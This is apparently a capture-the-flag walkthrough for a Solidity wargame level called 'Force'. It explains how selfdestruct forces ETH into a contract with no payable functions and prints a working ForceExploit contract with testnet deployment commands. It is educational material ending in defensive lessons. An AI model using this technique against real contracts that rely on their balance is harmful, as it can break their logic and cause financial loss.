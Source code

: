 # Level 7: Force Challenge

## Challenge Description

This level introduces a unique concept in Ethereum: forcing ETH into a contract that doesn't have any payable functions. The goal is to make the target contract's balance greater than zero, even though it appears impossible at first glance.

## Contract Location

The challenge contract is located at:
```
/contracts/level-07-force/Force.sol
```

## Understanding the Challenge

The `Force` contract is completely empty - it doesn't have any functions, not even a fallback or receive function:

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Force { /*
                   MEOW ?
         /\_/\   /
    ____/ o o \
    /~____  =ø= /
    (______)__m_m)
*/
}
```

It seems impossible to send ETH to this contract since it doesn't have any payable functions, but there's a specific mechanism in Ethereum that allows forcing ETH into any contract.

### The Vulnerability

In Ethereum, there are three ways a contract can receive ETH:
1. Through a payable function
2. Through a payable fallback or receive function
3. As the recipient of a `selfdestruct` operation

The third method is the key to solving this challenge. When a contract self-destructs (via the `selfdestruct` function), it can send its remaining ETH to any address, even if that address is a contract without payable functions.

## Winning Strategy

To win this challenge, you need to:

1. Create a contract with ETH in its balance
2. Make this contract call `selfdestruct` with the Force contract's address as the recipient
3. This will force ETH into the Force contract, making its balance greater than zero

## Hint for Thinking

Ask yourself:
* What are all the possible ways a contract can receive ETH in Ethereum?
* What happens to the funds in a contract when it's destroyed?
* Can you bypass the normal mechanisms for sending ETH to a contract?

## Disclaimer

If you want to solve this challenge on your own, stop reading here and try to implement a solution based on the hints above. The complete solution is provided below.

---

## Solution

The solution involves creating a contract that can receive ETH and then self-destruct, sending its balance to the Force contract.

### Solution Contract

```solidity
contract ForceExploit {
    address payable public target;
    
    constructor(address payable _targetAddress) {
        target = _targetAddress;
    }
    
    // Allows the contract to receive ETH
    receive() external payable {}
    
    // Forces ETH to the target by self-destructing
    function attack() external {
        require(address(this).balance > 0, "Need ETH to perform the attack");
        selfdestruct(target);
    }
}
```

## Step-by-Step Solution Guide

### 1. Deploy the Force Contract

If you're testing locally, deploy the Force contract first:

```shell
npx hardhat deploy --tags force
```

### 2. Deploy the Solution Contract

Deploy the ForceExploit contract, passing the address of the Force contract:

```shell
# Using the deployment script with tags
npx hardhat deploy --tags force-solution --network sepolia

# Or specifying a custom target address
TARGET_ADDRESS=0xYourForceAddress npx hardhat deploy --tags force-solution --network sepolia
```

### 3. Execute the Solution

Run the provided script to send ETH to the ForceExploit contract and then trigger the self-destruct:

```shell
npx hardhat run scripts/level-07-force/execute-force-exploit.ts --network sepolia
```

This script will:
1. Send a small amount of ETH (0.001 ETH) to the ForceExploit contract
2. Call the `attack()` function, which will self-destruct the contract and force the ETH to the target
3. Verify the target's balance to confirm success

### 3. Verify Your Success

After executing the solution, the script will check the Force contract's balance. If it's greater than zero, you've completed the challenge.

## Lessons Learned

This challenge teaches important concepts about ETH transfers and contract destruction:

1. **Forced ETH Reception**: There's no way to prevent a contract from receiving ETH via the `selfdestruct` mechanism.

2. **selfdestruct Operation**: The `selfdestruct` operation removes the contract from the blockchain state and sends all remaining ETH to the specified address, regardless of whether that address is equipped to receive it.

3. **Contract Design**: When designing contracts that rely on having zero balance, you must be aware that this condition can be violated using `selfdestruct`.

4. **Balance Security**: Never rely solely on a contract's balance for security checks, as its balance can be manipulated in ways that bypass normal ETH transfer mechanisms.
